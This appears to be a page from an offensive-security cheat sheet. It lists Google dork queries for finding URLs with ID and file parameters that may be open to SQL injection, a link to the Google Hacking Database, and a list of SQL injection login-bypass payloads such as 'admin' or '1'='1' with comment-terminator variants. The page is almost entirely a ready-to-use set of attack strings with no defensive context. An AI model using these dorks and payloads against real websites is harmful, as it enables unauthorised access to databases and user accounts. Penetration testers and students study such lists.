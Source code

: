 icon:material/google

# Google Dorks

## SQL Injection

#### Google Dorking SQLi

```bash
inurl:.php?id=
inurl:index.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
inurl:pageid=
inurl:games.php?id=
inurl:page.php?file=
```

## Google Hacking Database

- [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

## SQL Injection Queries

```bash
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
```
